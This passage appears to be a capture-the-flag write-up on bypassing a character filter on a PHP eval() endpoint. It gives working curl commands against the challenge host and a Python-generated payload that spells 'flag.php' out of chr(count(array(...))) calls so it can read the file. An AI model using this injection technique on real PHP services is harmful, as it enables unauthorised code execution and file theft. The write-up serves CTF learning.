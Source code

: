 * **Variables** like `$FLAG` are blocked (the `$` is escaped).
* You can’t type **digits**, **quotes**, **spaces**, `"."`, **underscore**, etc.
* But you *can* still use **letters, commas, and parentheses** → function calls like `print()`, `file()`, `implode()`, `array()`, `chr()`, `count()`.

Also note: the page only renders the “result” `<div>` when `$output` is **truthy**. `print()` returns `1`, so it guarantees that block shows.

---

## Recon / Sanity check

Prove code execution without using blocked characters:

```bash
curl -s -X POST -d 'input=return(true)' http://52.59.124.14:5011/ \
| sed -n 's/.*id="resultText">\([^<]*\).*/\1/p'
# -> 1
```

This shows our expression is being `eval()`’d.

Tried the obvious constant leak:

```bash
curl -s -X POST -d 'input=return(FLAG)' http://52.59.124.14:5011/
curl -s -X POST -d 'input=return(flag)' http://52.59.124.14:5011/
```

No flag → likely the flag is **not** a constant, but in `flag.php` as a variable (e.g., `$FLAG`), which we can’t access directly due to `$` being blocked.

---

## Exploit idea

We can’t type `"flag.php"` (quotes/digits/`.` blocked), so we **synthesize** it:

* `array(true,true,true)` → `count(...) = 3`
* `chr(70)` → `'F'` (but we can’t type `70`)
* So we build **every character** via `chr(count(array(true,…)))`
* Then `implode(array(...))` joins characters into the string.

With that, we can do:

```php
print(implode(file("flag.php")));
```

…but written **only** with allowed tokens.

---

## Exploit (one-liner)

```bash
URL="http://52.59.124.14:5011/"

PAYLOAD=$(python3 - <<'PY'
def enc(s):
    def block(n): return "true,"*(n-1)+"true"
    parts = [f"chr(count(array({block(ord(c))})))" for c in s]
    return "implode(array(" + ",".join(parts) + "))"
code = f"print(implode(file({enc('flag.php')})))"
print(code)
PY
)

curl -s -X POST --data-urlencode "input=$PAYLOAD" "$URL" | grep -o 'ENO{[^}]*}'
```